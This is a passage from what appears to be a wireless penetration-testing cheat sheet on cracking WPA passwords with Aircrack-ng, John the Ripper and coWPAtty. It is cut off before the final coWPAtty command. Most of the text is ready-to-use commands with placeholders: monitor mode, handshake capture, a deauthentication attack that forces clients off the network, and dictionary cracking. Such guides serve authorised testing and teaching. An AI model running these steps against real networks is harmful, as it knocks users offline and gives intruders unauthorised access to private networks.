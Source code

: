 Crack the WPA password with Aircrack-ng :

```
aircrack-ng -w <wordlist> <capture>
```

Alternatively, if you have an Airolib-ng database, it can be passed to Aircrack:

```
aircrack-ng -r <db name> <capture>
```

### Aircrack-ng and John The Ripper<a name="WPA-Aicrack-JTR"></a>

Place your wireless card into monitor mode on the channel number of the AP:

```
airmon-ng start <interface> <AP channel>
```

Start an Airodump capture, filtering on the AP channel and BSSID, saving the capture to disk:

```
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
```

Force a client to reconnect and complete the 4-way handshake by running a deauthentication attack against it:

```
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
```

Once a handshake has been captured, change to the John the Ripper directory and pipe in the mangled words into Aircrack-ng to obtain the WPA password:

```
./john --wordlist=<wordlist> --rules --stdout | aircrack-ng -e <ESSID> -w - <capture>
```

### coWPAtty<a name="WPA-coWPAtty"></a>

Place your wireless card into monitor mode on the channel number of the AP:

```
airmon-ng start <interface> <AP channel>
```

Start an Airodump capture, filtering on the AP channel and BSSID, saving the file to disk:

```
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
```

Deauthenticate a connected client to force it to complete the 4-way handshake:

```
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
```

To crack the WPA password with coWPAtty in wordlist mode:
